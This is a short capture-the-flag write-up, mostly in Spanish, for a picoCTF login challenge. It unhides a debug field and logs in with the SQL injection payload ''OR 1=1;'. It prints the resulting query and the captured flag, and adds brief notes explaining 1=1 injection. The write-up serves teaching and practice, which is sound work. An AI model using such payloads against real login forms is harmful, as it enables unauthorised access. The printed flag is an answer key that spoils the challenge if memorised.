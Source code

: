 ## Descripción
There is a website running at https://jupiter.challenges.picoctf.org/problem/39720/ (link) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

## Pistas 
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.
## Solución
Editamos el archivo HTML, en el input de nombre "debug", quitamos el atributo hidden.

```
username: 'OR 1=1;
password: password
SQL query: SELECT * FROM users WHERE name=''OR 1=1;' AND password='password'
```

## Bandera
picoCTF{s0m3_SQL_c218b685}

## Notas Adicionales
SQL Injection usually occurs when you ask a user for input, like their username/userid, and instead of a name/id, the user gives you an SQL statement that you will unknowingly run on your database.
**SQL Injection Based on 1=1 is Always True**
The original purpose of the code was to create an SQL statement to select a user, with a given user id.
If there is nothing to prevent a user from entering "wrong" input, the user can enter some "smart" input like UserId= 105 OR 1=1

## Referencias
https://www.w3schools.com/sql/sql_injection.asp